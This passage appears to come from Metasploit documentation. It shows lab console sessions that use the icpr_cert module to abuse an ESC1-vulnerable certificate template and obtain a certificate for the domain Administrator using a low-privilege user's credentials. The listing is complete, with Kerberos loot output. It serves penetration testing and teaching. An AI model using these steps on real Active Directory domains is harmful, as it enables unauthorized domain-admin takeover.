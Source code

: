 ```
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/pkinit_login) > loot

Loot
====

host           service  type                 name             content                   info                                                              path
----           -------  ----                 ----             -------                   ----                                                              ----
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                       /home/gwillcox/.msf4/loot/20221216145113_default_unknown_windows.ad.cs_961069.pfx
172.30.239.85           mit.kerberos.ccache                   application/octet-stream  realm: DAFOREST.COM, client: normal, server: krbtgt/daforest.com  /home/gwillcox/.msf4/loot/20221216145753_default_172.30.239.85_mit.kerberos.cca_452545.bin

msf6 auxiliary(admin/kerberos/pkinit_login) >
```

# Using the ESC1 Vulnerability To Get a Certificate as the Domain Administrator
Getting a certificate as the current user is great, but what we really want to do is elevate privileges if we can. Luckly we can also do this with the `icpr_cert` module. We just need to also set the `ALT_UPN` option to specify who we would like to authenticate as instead. Note that this only works with ESC1 vulnerable certificate templates which is why we can do this here.

If we know the domain name is `daforest.com` and the domain administrator of this domain is named `Administrator` we can quickly set this up:

```
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC1-Template
CERT_TEMPLATE => ESC1-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normaluser
SMBPass => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normal
SMBUser => normal
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN Administrator@daforest.com
ALT_UPN => Administrator@daforest.com
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```
